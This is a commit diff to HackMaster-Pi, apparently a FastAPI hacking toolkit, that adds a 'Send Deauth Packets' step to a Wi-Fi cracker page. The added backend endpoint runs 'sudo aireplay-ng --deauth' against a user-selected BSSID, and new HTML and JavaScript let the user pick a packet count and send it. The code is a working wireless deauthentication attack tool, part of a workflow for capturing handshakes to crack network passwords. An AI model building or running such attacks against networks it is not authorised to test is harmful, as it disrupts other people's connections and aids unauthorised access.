

Before and after one commit to 1PingSun/HackMaster-Pi, a FastAPI app: page /WiFi/wifi-cracker in a window 1280 px wide. Shown: the part 799-1476 px from the top of the page. Before the commit the page ends 1150 px from the top, so only its background shows below. Run offline with FastAPI, Linux system fonts and the light colour scheme.

Commit message:
Feat: wifi-cracker step6

```diff
--- a/app/api/WiFi.py
+++ b/app/api/WiFi.py
@@ -83,7 +83,7 @@ class CaptureRequest(BaseModel):
 class DeauthRequest(BaseModel):
     interface: str
     bssid: str
-    packets: int = 5
+    packets: int = 10  # 預設 10 個封包
     broadcast: bool = True
 
 # 定義破解請求模型
@@ -457,6 +457,64 @@ async def start_capture(request: CaptureRequest, background_tasks: BackgroundTas
             "message": f"Failed to start capture: {str(e)}"
         }
 
+@router.post("/deauth/send")
+async def send_deauth(request: DeauthRequest):
+    """
+    發送解除認證封包
+    """
+    try:
+        # 構建 aireplay-ng 指令
+        # sudo aireplay-ng --deauth {packets} -a {bssid} {interface}
+        deauth_command = [
+            "sudo", "aireplay-ng",
+            "--deauth", str(request.packets),
+            "-a", request.bssid,
+            request.interface
+        ]
+
+        # 如果不是廣播模式，可以加入特定客戶端MAC
+        # 這裡暫時只支援廣播模式（對所有連接的客戶端發送）
+
+        # 執行指令
+        result = subprocess.run(
+            deauth_command,
+            capture_output=True,
+            text=True,
+            timeout=30  # 30秒超時
+        )
+
+        if result.returncode == 0:
+            return {
+                "success": True,
+                "message": f"Successfully sent {request.packets} deauth packets to {request.bssid}",
+                "packets_sent": request.packets,
+                "target_bssid": request.bssid,
+                "interface": request.interface,
+                "command": " ".join(deauth_command),
+                "output": result.stdout
+            }
+        else:
+            return {
+                "success": False,
+                "message": f"Failed to send deauth packets: {result.stderr}",
+                "command": " ".join(deauth_command),
+                "error": result.stderr
+            }
+
+    except subprocess.TimeoutExpired:
+        return {
+            "success": False,
+            "message": "Deauth command timed out (30 seconds)",
+            "packets_sent": 0
+        }
+    except Exception as e:
+        return {
+            "success": False,
+            "message": f"Error sending deauth packets: {str(e)}",
+            "packets_sent": 0
+        }
+
+
 @router.post("/capture/stop")
 async def stop_capture():
     """
--- a/app/templates/WiFi/wifi-cracker.html
+++ b/app/templates/WiFi/wifi-cracker.html
@@ -55,7 +55,13 @@
         <button id="startCaptureButton" onclick="startCapture()">Start Capturing</button>
         <p id="captureStatus"></p>
 
-        <h1>6. Stop Capture</h1>
+        <h1>6. Send Deauth Packets</h1>
+        <label for="packetCount">Number of packets:</label>
+        <input type="number" id="packetCount" value="10" min="1" max="100" style="width: 80px;">
+        <button id="sendDeauthButton" onclick="sendDeauthPackets()">Send Deauth Packets</button>
+        <p id="deauthStatus"></p>
+
+        <h1>7. Stop Capture</h1>
         <button id="stopCaptureButton" onclick="stopCapture()" disabled>Stop Capturing</button>
         <p id="stopCaptureStatus"></p>
 
@@ -465,4 +471,71 @@
                 stopButton.textContent = 'Stop Capturing';
             }
         }
+
+        async function sendDeauthPackets() {
+            if (!selectedInterface) {
+                alert('Please select a network interface first');
+                return;
+            }
+
+            if (!targetBSSID) {
+                alert('Please select a target network first');
+                return;
+            }
+
+            const deauthButton = document.getElementById('sendDeauthButton');
+            const deauthStatus = document.getElementById('deauthStatus');
+            const packetCount = document.getElementById('packetCount').value;
+
+            // 驗證封包數量
+            const packets = parseInt(packetCount);
+            if (isNaN(packets) || packets < 1 || packets > 100) {
+                alert('Please enter a valid packet count (1-100)');
+                return;
+            }
+
+            // 更新按鈕狀態
+            deauthButton.disabled = true;
+            deauthButton.textContent = 'Sending...';
+            deauthStatus.textContent = `Sending ${packets} deauth packets to ${targetESSID}...`;
+
+            try {
+                const controller = new AbortController();
+                const timeoutId = setTimeout(() => controller.abort(), 45000); // 45秒超時
+
+                const response = await fetch('/WiFi/deauth/send', {
+                    method: 'POST',
+                    headers: {
+                        'Content-Type': 'application/json'
+                    },
+                    body: JSON.stringify({
+                        interface: selectedInterface,
+                        bssid: targetBSSID,
+                        packets: packets,
+                        broadcast: true
+                    }),
+                    signal: controller.signal
+                });
+
+                clearTimeout(timeoutId);
+
+                const data = await response.json();
+
+                if (data.success) {
+                    deauthStatus.textContent = `Successfully sent ${data.packets_sent} deauth packets to ${targetESSID}`;
+                } else {
+                    deauthStatus.textContent = `Failed to send deauth packets - ${data.message}`;
+                }
+            } catch (error) {
+                if (error.name === 'AbortError') {
+                    deauthStatus.textContent = 'Deauth sending timed out';
+                } else {
+                    deauthStatus.textContent = `Error - ${error.message}`;
+                }
+            } finally {
+                // 恢復按鈕狀態
+                deauthButton.disabled = false;
+                deauthButton.textContent = 'Send Deauth Packets';
+            }
+        }
     </script>
```
